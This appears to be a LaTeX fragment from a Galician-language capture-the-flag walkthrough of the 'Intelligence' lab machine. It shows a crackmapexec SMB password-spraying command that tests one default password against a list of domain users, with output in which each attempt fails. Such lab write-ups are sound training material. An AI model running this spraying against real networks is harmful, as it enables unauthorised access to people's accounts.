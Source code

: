 \documentclass[a4paper]{article}
\newcommand{\ipTarget}{10.10.10.248}
\begin{document}
Entón imos probar se algún dos usuarios existentes no dominio non modificou o contrasinal:
        \begin{lstlisting}[language=Bash, caption=Usuario/s con contrasinal por defecto, linewidth=18.7cm]
$ crackmapexec smb ¬\ipTarget¬ -u creators.txt -p 'NewIntelligenceCorpUser9876' --continue-on-success
SMB   10.10.10.248 445 DC   [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Anita.Roberts:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Brian.Baker:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Brian.Morris:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Daniel.Shelton:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Danny.Matthews:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Darryl.Harris:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\David.Mcbride:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\David.Reed:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\David.Wilson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Jason.Patterson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Jason.Wright:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Jennifer.Thomas:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Jessica.Moody:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Kaitlyn.Zimmerman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Kelly.Long:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Nicole.Brock:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB   10.10.10.248 445 DC   [-] intelligence.htb\Richard.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE

\end{lstlisting}
\end{document}
